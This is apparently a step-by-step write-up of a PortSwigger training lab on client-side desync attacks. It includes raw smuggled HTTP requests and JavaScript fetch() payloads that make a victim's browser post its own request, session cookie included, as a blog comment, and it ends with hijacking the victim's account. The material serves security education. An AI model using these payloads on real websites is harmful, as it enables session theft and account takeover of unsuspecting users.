


# Client-side desync

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync) is vulnerable to client-side desync attacks because the server ignores the `Content-Length` header on requests to some endpoints. This can be exploited to induce a victim's browser to disclose its session cookie. See [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling: CSD](https://portswigger.net/research/browser-powered-desync-attacks#csd).

## Reproduction and proof of concept

### Identify a vulnerable endpoint

1. Notice that requests to `/` result in a redirect to `/en`.
2. Send the `GET /` request to Burp Repeater.
3. In Burp Repeater, use the tab-specific settings to disable the **Update Content-Length** option.
4. Convert the request to a `POST` request (right-click and select Change request method).
5. Change the `Content-Length` to 1 or higher, but leave the body empty.
6. Send the request. Observe that the server responds immediately rather than waiting for the body. This suggests that it is ignoring the specified `Content-Length`.

### Confirm the desync vector in Burp

1. Re-enable the **Update Content-Length** option.
2. Add an arbitrary request smuggling prefix to the body:

```html
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Connection: close
Content-Length: CORRECT

GET /404 HTTP/1.1
Foo: x
```

3. Add a normal request for `GET /` to the tab group, after your malicious request.
4. Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection).
5. Change the `Connection` header of the first request to `keep-alive`.
6. Send the sequence and check the responses. If the response to the second request matches what you expected from the smuggled prefix (in this case, a 404 response), this confirms that you can cause a desync.

### Replicate the desync vector in your browser

1. Open a separate instance of Chrome that is **not** proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the Preserve log option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the fetch() API as follows:

```html
fetch('https://lab-id.web-security-academy.net', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors',
    credentials: 'include',
}).catch(() => {
        fetch('https://lab-id.web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

6. Note that we're intentionally triggering a CORS error to prevent the browser from following the redirect, then using the `catch()` method to continue the attack sequence.
7. On the Network tab, you should see two requests:
* The main request, which has triggered a CORS error.
* A request for the home page, which received a 404 response.

This confirms that the desync vector can be triggered from a browser.

### Identify an exploitable gadget

1. Back in Burp's browser, visit one of the blog posts and observe that this lab contains a comment function.
2. From the **Proxy > HTTP history**, find the `GET /en/post?postId=x` request. Make note of the following:
* The `postId` from the query string
* Your session and `_lab_analytics` cookies
* The `csrf` token
3. In Burp Repeater, use the desync vector from the previous section to try to capture your own arbitrary request in a comment. For example:

Request 1:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Connection: keep-alive
Content-Length: CORRECT

POST /en/post/comment HTTP/1.1
Host: lab-id.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE
Content-Length: NUMBER-OF-BYTES-TO-CAPTURE
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://ginandjuice.shop&comment=
```

Request 2:

```html
GET /capture-me HTTP/1.1
Host: lab-id.web-security-academy.net
```

Note that the number of bytes that you try to capture must be longer than the body of your `POST /en/post/comment` request prefix, but shorter than the follow-up request.

4. Back in the browser, refresh the blog post and confirm that you have successfully output the start of your `GET /capture-me` request in a comment.

### Replicate the attack in your browser

1. Open a separate instance of Chrome that is not proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the Preserve log option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the `fetch()` API as follows:

```text
fetch('https://lab-id.web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: lab-id.web-security-academy.net\r\nCookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE\r\nContent-Length: NUMBER-OF-BYTES-TO-CAPTURE\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://portswigger.net&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://lab-id.web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

6. On the Network tab, you should see three requests:
* The initial request, which has triggered a CORS error.
* A request for `/capture-me`, which has been redirected to the post confirmation page.
* A request to load the post confirmation page.
7. Refresh the blog post and confirm that you have successfully output the start of your own `/capture-me` request via a browser-initiated attack.

### Exploit

1. Go to the exploit server.
2. In the Body panel, paste the script that you tested in the previous section.
3. Wrap the entire script in HTML `script` tags.



4. Store the exploit and click **Deliver to victim**.
5. Refresh the blog post and confirm that you have captured the start of the victim user's request.
6. Repeat this attack, adjusting the `Content-Length` of the nested `POST /en/post/comment` request until you have successfully output the victim's session cookie.



7. In Burp Repeater, send a request for `/my-account` using the victim's stolen cookie to solve the lab.

## Exploitability

An attacker will need to identify a client-side desync vector in Burp, then confirm that it can be replicated this in your browser; identify a gadget that enables storing text data within the application; combine these to craft an exploit that causes the victim's browser to issue a series of cross-domain requests that leak their session cookie; and use the stolen cookie to access the victim's account.
